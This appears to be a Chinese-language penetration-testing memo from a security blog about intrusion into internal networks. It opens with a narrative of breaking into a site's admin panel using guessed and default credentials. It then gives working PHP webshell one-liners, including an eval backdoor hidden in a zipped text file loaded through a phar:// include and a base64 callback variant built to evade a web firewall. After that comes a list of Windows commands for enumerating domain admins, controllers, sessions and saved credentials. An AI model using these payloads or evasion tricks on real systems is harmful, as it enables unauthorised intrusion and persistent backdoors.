 ```yaml
---
title: 内网备忘录
date: 2018-5-28 1:50:30
tags: Web安全
toc: true
---
```


文章内容没谈snmp利用，可以去乌云等社区获取，没有日志处理，bypass uac等内容。

## Webshell

> 测试主站，搜wooyun历史洞未发现历史洞，github,svn,目录扫描未发现敏感信息,无域传送，端口只开了80端口，找到后台地址，想爆破后台，验证码后台验证，一次性，用ocr识别，找账号，通过google，baidu，bing等搜索，相关邮箱，域名等加常用密码组成字典，发现用户手册，找账号，发现未打码信息，和默认密码，试下登陆成功，找后台，上传有dog，用含有一句话的txt文件```<?php eval($_POST['cmd']);?>```，打包为zip，php文件```<?php include 'phar://1.zip/1.txt';?>```即可，c刀被拦，修改config.ini文件，php_make ```@eval(call_user_func_array(base64_decode,array($_POST[action])));```用回调函数，第一个为函数名，二个为传的参数.

## 前期收集
---

	query user || qwinsta 查看当前在线用户
	net user  查看本机用户
	net user /domain 查看域用户
	net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
	net view /domain 查看有几个域
	net view \\dc   查看dc域内共享文件
	net group /domain 查看域里面的组
	net group "domain admins" /domain 查看域管
	net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管
	net group "domain controllers" /domain 域控
	net time /domain 
	net config workstation   当前登录域 - 计算机名 - 用户名
	net use \\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
	ipconfig
	systeminfo
	tasklist /svc
	tasklist /S ip /U domain\username /P /V 查看远程计算机tasklist
	net localgroup administrators && whoami 查看当前是不是属于管理组
	netstat -ano
	nltest /dclist:xx  查看域控
	dsquery
	whoami /all 查看Mandatory Label uac级别和sid号
	net sessoin 查看远程连接session(需要管理权限)
	net share     共享目录
	cmdkey /l   查看保存登陆凭证
	echo %logonserver%  查看登陆域
	spn –l administrator spn记录
	set  环境变量
	dsquery server - 查找目录中的 AD DC/LDS 实例
	dsquery user - 查找目录中的用户
	dsquery computer 查询所有计算机名称windows 2003
	dir /s *.exe 查找指定目录下及子目录下没隐藏文件
	arp -a
	